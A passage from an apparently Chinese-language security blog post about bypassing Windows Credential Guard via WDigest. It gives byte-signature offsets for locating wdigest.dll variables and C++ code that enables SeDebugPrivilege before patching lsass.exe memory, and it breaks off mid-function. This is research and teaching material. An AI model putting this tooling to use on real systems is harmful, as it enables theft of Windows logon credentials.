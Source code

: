 在这个例子中，我们可以将第 6 行开始的字节序列 `41 B4 01 44 88 A4 24 A8 00 00 00 85 C0 ` 作为特征码，得到地址为 `0x18000187D`。然后减去 16 个字节定位到保存 `g_fParameter_UseLogonCredential` 偏移量的四个字节序列，取出偏移量为 `0x338B3`，最后可以计算出 `g_fParameter_UseLogonCredential` 的地址为 `0x18000187D - Hex(16) + Hex(4) + 0x338B3 = 0x180035124`，如下图所示位置。

![](/assets/posts/2023-01-18-revisiting-a-credential-guard-bypass-from-wdigest/image-20230118134828228.png)

同理可以获得 `g_IsCredGuardEnabled` 变量的地址为 `0x18000187D - Hex(10) + Hex(4) + 0x33311 = 0x180034B88`，如下图所示位置。

![](/assets/posts/2023-01-18-revisiting-a-credential-guard-bypass-from-wdigest/image-20230118135056302.png)

### Main Function

如下编写主函数。主函数启动后，首先会通过 `RtlGetNtVersionNumbers()` 函数获取操作系统版本，并分别赋值常量 `NT_MAJOR_VERSION`、`NT_MINOR_VERSION` 和 `NT_BUILD_NUMBER`。

```c++
int wmain(int argc, wchar_t* argv[])
{
	HANDLE hToken = NULL;

	RtlGetNtVersionNumbers(&NT_MAJOR_VERSION, &NT_MINOR_VERSION, &NT_BUILD_NUMBER);
	// Open a process token and get a process token handle with TOKEN_ADJUST_PRIVILEGES permission
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		wprintf(L"[-] OpenProcessToken Error [%u].\n", GetLastError());
		return -1;
	}

	if (EnableDebugPrivilege(hToken, SE_DEBUG_NAME))
	{
		PatchMemory();
	}
}
```

然后通过 `GetCurrentProcess()` 函数获取当前进程，并用 `OpenProcessToken()` 函数打开当前进程的句柄，并将其赋给 `hToken`。

由于 lsass.exe 是系统进程，因此工具在调试 lsass.exe 内存之前需要通过 `AdjustTokenPrivileges()` 函数为其开启 SeDebugPrivilege 特权，为此我编写了 `EnableDebugPrivilege()` 函数为当前进程提升令牌特权，如下所示。

```c++
BOOL EnableDebugPrivilege(HANDLE hToken, LPCWSTR lpName)
{
	BOOL status = FALSE;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges;
	
	// Get the LUID value of the SE_DEBUG_NAME (SeDebugPrivilege) privilege for the local system
	if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
	{
		wprintf(L"[-] LookupPrivilegeValue Error [%u].\n", GetLastError());
		return status;
	}

```